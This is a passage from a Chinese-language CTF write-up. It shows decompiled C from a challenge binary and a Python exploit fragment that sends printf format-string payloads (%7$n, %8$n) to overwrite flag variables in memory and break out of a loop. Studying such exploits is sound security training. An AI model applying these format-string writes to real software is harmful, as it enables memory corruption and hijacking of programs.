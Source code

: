 ```c
    && !MEMORY[0x2030D8];
  MEMORY[0x2030E0] = v2;
  MEMORY[0x2030E4] = MEMORY[0x2030DC];
  v4 = __readfsqword(0x28u);
  result = v4 ^ v6;
  if ( v4 != v6 )
    result = sub_810(a1, a2);
  return result;
}
```

退出循环后会调用这个东西，明显就是要找办法退出循环

```c
unsigned __int64 inside_pandora()
{
  unsigned __int64 result; // rax
  unsigned __int64 v1; // rt1
  char vul_buf[10]; // [rsp+16h] [rbp-2Ah]
  char v3[24]; // [rsp+20h] [rbp-20h]
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("You Have Unlocked The Pandora Box:%p\n", sub_9AA);
  puts("Tell me your name:");
  sub_840(0LL, v3);
  printf("Hello %s tell me what do you want?\n", v3);
  sub_870(vul_buf);
  v1 = __readfsqword(0x28u);
  result = v1 ^ v4;
  if ( v1 != v4 )
    result = sub_810(vul_buf, v3);
  return result;
}
```

看`sub_ACF`的逻辑，感觉就是要用格式化字符串对那几个地址动手脚，使得`MEMORY[0x2030E0]`和`!MEMORY[0x2030E4]`都为true。这个逻辑不难理解，所以exp如下：

```python
def qword_zero(addr):
	payload = "%7$n%8$n"
	payload += p64(addr)
	payload += p64(addr + 4)
	sh.send(payload + "\n")
	sh.recvuntil("cmd:")
	sh.recvuntil("cmd:")

def qword_one(addr):
	payload = "%7$p%7$n"
	payload += p64(addr)
	sh.send(payload + "\n")
	sh.recvuntil("cmd:")
	sh.recvuntil("cmd:")

# v2 = MEMORY[0x2030C0]
#   && MEMORY[0x2030C4]
#   && !MEMORY[0x2030C8]
#   && !MEMORY[0x2030CC]
#   && MEMORY[0x2030D4]
#   && !MEMORY[0x2030D8];
# MEMORY[0x2030E0] = v2;
# MEMORY[0x2030E4] = MEMORY[0x2030DC];

# dump_section(base + 0x2030C0, 32)
```